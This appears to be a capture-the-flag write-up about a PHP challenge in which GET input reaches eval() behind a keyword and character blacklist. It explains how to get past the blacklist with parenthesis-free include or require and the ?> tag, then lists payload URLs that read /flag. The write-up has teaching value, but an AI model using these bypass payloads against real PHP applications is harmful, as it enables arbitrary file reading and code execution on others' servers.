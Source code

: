 ```php
$cmd = $_GET['cmd'];

if(isset($cmd)){
    if(!preg_match("/echo|flag|system|php|cat|shell|\.| |\'|\`|\;|\(/i", $cmd)){
        eval($cmd);
    }
    
}else{
    highlight_file(__FILE__);
}

// $flag = "/flag";
```

1- to bypass `space` and `parentheses` filter we need to use functions that does not require parentheses (i.e: print, include, require ...)
2- to bypass `flag` filter we need to add second argument, as we can see `$` and `_` chars are allowed for `$_GET, $_REQUEST` use. (in all cases we need a dollar sign to declare that we end our func name and we are reading data from a var)
3- to bypass `semicolon` filter we gonna need the php close tag `?>` to end the script.

payload :

`http://18.192.38.21:3333/?cmd=include$_GET[0]?>&0=/flag`
`http://18.192.38.21:3333/?cmd=require$_GET[0]?>&0=/flag`
`http://18.192.38.21:3333/?cmd=require_once$_GET[0]?>&0=/flag`

__FLAG{EZZ_PHP_C0DE_BYP@SS}__